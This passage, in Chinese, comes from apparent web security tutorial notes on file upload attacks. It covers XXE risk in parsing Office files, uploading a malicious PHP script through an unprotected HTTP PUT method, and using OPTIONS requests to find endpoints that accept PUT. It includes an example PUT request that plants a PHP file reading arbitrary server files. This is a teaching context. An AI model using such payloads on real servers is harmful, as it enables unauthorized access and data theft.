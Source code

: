 

若目标系统已对上传文件实施了安全存储与传输措施，最终可尝试针对不同文件格式解析过程中的特定漏洞进行攻击。例如，当服务器需解析 Microsoft Office 的 .doc 或 .xls 等基 于XML 的文件时，这种处理机制可能构成 XXE 注入攻击的攻击向量。



## PUT文件上传

值得注意的是，某些Web服务器可能配置为支持 `PUT` 请求。如果缺乏适当的防护措施，即使通过 Web 界面没有可用的上传功能，这也为恶意文件上传提供了替代途径。

`PUT` 是 HTTP 协议中的一种请求方法，可理解为"将客户端的数据完整覆盖到服务器指定路径"，例如上传文件 `PUT /images/logo.png` 会直接创建或覆盖服务器 `/images/logo.png` 文件。

若服务器未对 `PUT` 请求做权限校验、文件类型过滤，攻击者可能直接通过 `PUT` 上传恶意脚本（如 PHP 后门文件）

```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49
<?php echo file_get_contents('/path/to/file'); ?>
```



您可以通过向不同端点发送 `OPTIONS` 请求，测试是否存在声明支持 `PUT `方法的终端节点。

OPTIONS 是 HTTP/1.1 协议定义的请求方法，**核心功能是探测整个服务器或特定路径（如 `/api/data`）支持的请求方法**。

**典型响应头示例（AI 生成）**

```
HTTP/1.1 200 OK
Allow: GET, POST, OPTIONS, PUT    ← 支持的 HTTP 方法
Access-Control-Allow-Methods: POST, GET, OPTIONS  ← CORS 允许的方法
Access-Control-Allow-Headers: Content-Type        ← CORS 允许的请求头
Content-Length: 0
```



